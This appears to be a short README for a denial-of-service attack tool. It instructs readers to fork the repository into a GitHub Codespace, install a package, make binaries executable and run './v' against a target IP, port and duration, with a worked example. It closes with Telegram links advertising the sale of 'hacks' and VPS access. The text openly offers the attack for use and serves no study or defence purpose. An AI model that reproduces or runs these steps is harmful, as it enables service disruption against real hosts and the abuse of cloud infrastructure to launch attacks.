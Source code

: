 All people use old or new script if works that's fine!

If u want to attack directly using terminal follow some steps - 
Click on fork  repository! After create codespace of 4 core after creating open terminal
 just run 2 command only one time 
1- pip install telebot
2- chmod +x *

Then attack with command by- 
./v ip port time time 
example-
./v 20.192.168.20 23477 200 200


U have to determine the time two time 
Then delite terminal bash to stop attack 
  -thankyou keep supporting
Must join- venomCHA7.t.me
Wanna buy hacks vps or anything dm - venomXcrazy.t.me

